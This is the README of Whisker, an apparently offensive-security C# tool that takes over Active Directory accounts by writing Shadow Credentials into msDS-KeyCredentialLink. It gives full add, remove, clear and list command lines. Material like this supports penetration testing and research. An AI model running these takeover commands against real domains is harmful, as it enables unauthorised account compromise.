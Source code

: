 # Whisker

Whisker is a C# tool for taking over Active Directory user and computer accounts by manipulating their `msDS-KeyCredentialLink` attribute, effectively adding "Shadow Credentials" to the target account.

This tool is based on code from [DSInternals](https://github.com/MichaelGrafnetter/DSInternals) by Michael Grafnetter ([@MGrafnetter](https://twitter.com/MGrafnetter)).

For this attack to succeed, the environment must have a Domain Controller running on Windows Server 2016, and the Domain Controller must have a server authentication certificate to allow for PKINIT Kerberos authentication.

More details are available at the post [Shadow Credentials: Abusing Key Trust Account Mapping for Takeover](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab).

## Usage

### Add a new value to the msDS-KeyCredentialLink attribute of a target object:

    Whisker.exe add /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /path:C:\path\to\file.pfx /password:P@ssword1

**/target:<samAccountName>**      Required. Set the target name. Computer objects should end with a '$' sign.

**/domain:<FQDN>**      Optional. Set the target Fully Qualified Domain Name (FQDN). If not provided, will try to resolve the FQDN of the current user.

**/dc:<IP/HOSTNAME>**   Optional.        Set the target Domain Controller (DC). If not provided, will try to target the Primary Domain Controller (PDC).

**/path:<PATH>**        Optional.  Set the path to store the generated self-siged certificate for authentication. If not provided, the certificate will be printed as a Base64 blob.
  
**/password:<PASWORD>**       Optional. Set the password for the stored self-siged certificate. If not provided, a random password will be generated.


### Remove a value from the msDS-KeyCredentialLink attribute of a target object:
  
    Whisker.exe remove /target:computername$ /domain:constoso.local /dc:dc1.contoso.local /remove:2de4643a-2e0b-438f-a99d-5cb058b3254b
    
**/target:<samAccountName>**      Required. Set the target name. Computer objects should end with a '$' sign.
    
**/deviceID:<GUID>**       Required. Set the DeviceID of the value to remove from the attribute msDS-KeyCredentialLink of the target object. Must be a valid GUID.  

**/domain:<FQDN>**      Optional. Set the target Fully Qualified Domain Name (FQDN). If not provided, will try to resolve the FQDN of the current user.
    
**/dc:<IP/HOSTNAME>**   Optional.        Set the target Domain Controller (DC). If not provided, will try to target the Primary Domain Controller (PDC).

### Clear all the values of the the msDS-KeyCredentialLink attribute of a target object:
  
    Whisker.exe clear /target:computername$ /domain:constoso.local /dc:dc1.contoso.local 
  
**/target:<samAccountName>**      Required. Set the target name. Computer objects should end with a '$' sign.
    
**/domain:<FQDN>**      Optional. Set the target Fully Qualified Domain Name (FQDN). If not provided, will try to resolve the FQDN of the current user.
  
**/dc:<IP/HOSTNAME>**   Optional.        Set the target Domain Controller (DC). If not provided, will try to target the Primary Domain Controller (PDC).
  
*Warning: Clearing the msDS-KeyCredentialLink attribute of accounts configured for passwordless authentication will cause disruptions.*

### List all the values of the the msDS-KeyCredentialLink attribute of a target object:
  
    Whisker.exe list /target:computername$ /domain:constoso.local /dc:dc1.contoso.local 
  
**/target:<samAccountName>**      Required. Set the target name. Computer objects should end with a '$' sign.
  
**/domain:<FQDN>**      Optional. Set the target Fully Qualified Domain Name (FQDN). If not provided, will try to resolve the FQDN of the current user.
  
**/dc:<IP/HOSTNAME>**   Optional.        Set the target Domain Controller (DC). If not provided, will try to target the Primary Domain Controller (PDC).
